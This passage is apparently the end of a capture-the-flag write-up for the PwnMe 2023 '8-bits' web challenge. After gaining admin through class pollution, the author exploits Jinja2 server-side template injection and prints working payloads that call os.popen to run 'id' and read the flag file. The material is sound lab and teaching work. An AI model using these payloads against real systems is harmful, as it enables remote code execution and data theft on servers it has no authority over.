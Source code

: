 > Note: The `admin` user is not restricted and can see template.

**And change the original one:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507161704.png)

Boom!! We're the admin user now!!!

**Now, let's view the `welcome` article, and it SHOULD render the `if` block:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162007.png)

**Before admin:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162051.png)

Nice!!! It does!!

With that said, let's exploit RCE via SSTI vulnerability!

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python), we can gain RCE via the following payload:**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() \}\}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162317.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162323.png)

Yes!!! Let's read the flag!!!

```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /app/flag.txt').read() \}\}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162550.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162623.png)

- **Flag: `PWNME{de3P_pOL1uTi0n_cAn_B3_D3s7rUctIv3}`**

## Conclusion

What we've learned:

1. Exploiting Class Pollution (Python's Prototype Pollution) & RCE Via SSTI